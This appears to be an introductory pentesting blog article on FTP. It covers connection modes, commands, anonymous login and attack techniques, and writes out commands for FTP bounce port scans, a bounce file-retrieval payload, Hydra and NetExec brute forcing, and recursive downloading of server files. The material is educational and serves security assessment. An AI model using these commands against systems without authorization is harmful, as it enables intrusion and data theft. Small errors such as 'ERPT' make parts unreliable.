 ```yaml
---
title: "Intro to FTP"
summary: “This article introduces FTP (File Transfer Protocol), a client-server protocol used for file transfers over a network. It explains FTP’s architecture, communication channels, commands and security risks.”
date: 2024-11-14
tag:
  - Cibersecurity
  - Pentesting
  - FTP
---
```


FTP (File Transfer Protocol) is one of the **oldest and most widely** used protocols for **transferring files** between computers. While it provides a simple way to move data, its default configuration lacks security, making it a common target for attackers. In this article, we’ll cover the basics of FTP, its **communication modes**, **essential commands**, and **common misconfigurations** that could be exploited. Whether you're a cybersecurity enthusiast or a penetration tester, understanding FTP is crucial for securing or assessing network environments.

<!-- more -->

This protocol has a client-server architecture using a server to serve files that can be accessed by N clients. By default, **the information is transmitted in plain text**, although there is an encrypted version of it called SFTP (Secure File Transfer Protocol).


Although there are implementations with a graphical interface, in this article we will make use of the FTP command line tool, which gives us a lot of flexibility when working with the protocol. In later articles we will explore the main client and server implementations, although in this one we will focus on explaining the basic concepts of the protocol, how to work with it and how to take advantage of some misconfigurations.

## Theory

### Communication channels

For FTP to work, two communication channels are required, one for sending commands and the other for data.

### Connection modes

#### Active

This is the default connection mode for FTP connections, in which two events occur:

- A command channel is established in the connection to the server between the server's command port (21 by default) and a port greater than 1023 on the client side (we will refer to this as P).
- Once the data connection is established, an attempt is made to open a connection from the server's data port (20 by default) to port P+1 on the client.

!!! note

    Active mode may present problems with client firewalls because it attempts to create a direct connection to a client-side port, which may be blocked by certain firewalls.

#### Passive

This mode arises as a solution to the problem of client firewalls, here the workflow is modified so that both the data connection and the client connection are initiated from the client, we can break it down into two events.

- A command channel is established on the server connection between the server command port (21 by default) and a port greater than 1023 on the client side (we will refer to this as P).
- Once the data connection is established a data connection is opened from port P+1 on the client to a port on the server data channel, this process is repeated for each file transfer occupying a different server port on each connection (this can be configured in most server side software) .

!!! note

    Passive mode requires the opening of a range of ports in the firewall, this can generate some security problems if this port opening is not configured correctly.

## FTP commands

```bash
CWD -> Changes the current directory to the specified one
DELE -> Deletes the specified file
EPRT -> Establish a socket for data connection
LIST -> List the files in the current directory
PASV -> Change mode to passive mode
PWD -> Displays the current directory 
RETR -> Download the specified file
```

## Anonymous login

There is an FTP configuration that allows the use of a login to share files for any user that requires it, in case this configuration is enabled a user could use anonymous as login name and any password to access the server as a user with low privileges, although in certain cases this can lead to compromise the entire system.

## FTP Bounce port scan

It is possible to abuse the PORT and ERPT commands to perform an open port scan via an FTP server.

### Nmap

```bash
nmap -b <name>:<pass>@<ftp_server> <victim>
```

### Hand-made

Once connected we can perform the port scan using the PORT and ERPT commands followed by a LIST command.

Here is an example for scanning port 9091 on host 10.10.10.14

```bash
PORT 10.10.10.14.14.0.9091
EPRT |2|10.10.10.14|9091||

LIST
```

If the response is a 150 the port is open, in case of receiving a 415 the port is closed.

## FTP Bounce file get

This attack allows an attacker to download files from an FTP server not accessible by the attacker, but which can be reached by an FTP server accessible by the attacker.

<figure markdown="span">
    ![Net Diagram](../../assets/posts/2024/11/14/net_diagram.png)
  <figcaption>Net Diagram</figcaption>
</figure>

This attack has the following prerequisites:

- Valid credentials for External FTP.
- Valid credentials for Internal FTP.
- Write access for External FTP.
- PORT command execution permissions on both External and Internal.

First of all we will deploy an FTP server on the attacker's machine, this server has to support passive mode.

Once deployed we will open a passive connection with the PASV command and tell it to save it with STOR output.ext .

Now we will create a file with the commands we want to launch against the second server, an example would be the following:

```bash
user ftp # User for the internal server
pass password # Password for the internal server
cwd /DIRECTORY
type i
port F,F,F,F,F,F,X,X #Our passive port
retr file.ext
quit
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
```

Now we upload it with PUT and from the external server we execute the following commands:

```bash
put payload
quote "port C,C,C,C,C,0,21" # IP of internal server
quote "retr payload"
```

After this we will have the file.ext file on our server as output.ext

## Brute force attack

Many FTP servers do not have protection against brute force attacks. Having a user or a list of them we can carry out a brute force attack with different credentials obtained from various sources, although there are several tools for this purpose, the two most common are NetExec and Hydra.  

### NetExec

```bash
nxc ftp IP -u userfile -p passwordfile
```

### Hydra

```bash
hydra -L userfile -P passwordfile ftp://IP
```

## Full content backup

This is not an attack per se, but it is quite useful, as it allows us to download all accessible files from the server using a single command.

```bash
wget -r ftp://IP/dir/* --ftp-user=username --ftp-password=password
```

## FTP file upload to RCE

In certain circumstances, permission to upload files to the server along with other misconfigurations can lead to obtaining remote execution of commands on the server.

The most common case is the possibility of uploading files to be served by a web server, where we could upload a webshell interpretable by the server to obtain command execution.

## Sniffing credentials

Since FTP works by default in plain text, it is possible for an attacker on the same network to use a sniffer and capture both the credentials and the FTP conversation.

---

In the next article of this series on FTP we will discuss common implementation errors and some known vulnerabilities of some implementations of the protocol.
